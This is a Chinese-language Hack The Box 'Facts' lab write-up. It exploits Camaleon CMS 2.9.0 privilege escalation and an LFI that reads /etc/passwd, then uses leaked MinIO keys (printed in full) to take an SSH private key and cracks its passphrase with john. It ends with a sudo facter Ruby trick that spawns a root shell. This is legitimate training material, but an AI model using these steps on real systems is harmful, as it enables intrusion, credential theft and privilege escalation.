# HTB Season 10 - Facts

## 信息收集

### 端口扫描

```shell
nmap -sS -sV -A -O -p- 10.129.253.142
```



结果:
22 OpenSSH 9.9p1 Ubuntu 3
80 nginx 1.26.3 (Ubuntu)
54321 Golang net/http server

### 目录扫描

```shell
dirsearch -u http://facts.htb
```



### 访问网站

访问 http://facts.htb 尝试/admin 发现是一个登录页面。
注册账户登录后发现是Camaleon CMS 2.9.0版本



#### 漏洞利用

Camaleon CMS 2.9.0 存在低权限用户提升漏洞（CVE-2025-2304）
Camaleon CMS 2.9.0 存在LFI/路径穿越漏洞（CVE-2024-46987）





```shell
python exploit.py -u http://facts.htb -u 低权限账户 -p 密码 
```



再次登录zhaha账户发现权限已提升



在后台发现s3 存储桶的密钥



结合nmap扫描的54321端口发现是minio存储服务
我们可以使用minio客户端连接到存储服务



```shell
curl --progress-bar -L https://dl.min.io/aistor/mc/release/linux-amd64/mc \
--create-dirs \
-o $HOME/aistor-binaries/mc

chmod +x ~/aistor-binaries/mc
```

连接到minio存储服务

```shell
~/aistor-binaries/mc alias set minio http://facts.htb:54321 AKIA23CDC301F5BF9965 eNB7H6/IvQG2WPmZ4a8DgIHhypdp9uCGcxzkvtqB
```



查看存储桶,发现ssh私钥



下载ssh私钥

```shell
~/aistor-binaries/mc cp minio/internal/.ssh/id_ed25519 ./nimio
```



但是目前我们缺少账户名,因此需要利用CVE-2024-46987漏洞获取/etc/passwd文件

出现漏洞的组件路径为GET传参/admin/media/download_private_file?file=

利用漏洞获取/etc/passwd文件



得到的可登录普通用户账户为如下:

trivia,william

使用私钥登录时发现需要密码,因此需要对私钥爆破


将密钥转换成hash破解

```shell
ssh2john nimio > nimio.hash
```

john破解

```shell
john ./minio.hash --wordlist='/root/Desktop/wordlists/rockyou.txt'
```

得到密码为:dragonballz



成功登录trivia,并在William账户下发现flag



#### sudo提权



facter可以执行指定用户目录下的第一个rb文件,因此可以构造提权脚本

```ruby
vim /tmp/1.rb
exec '/bin/sh -p'
```

执行facter

```shell
facter --custom-dir /tmp
```

成功提权




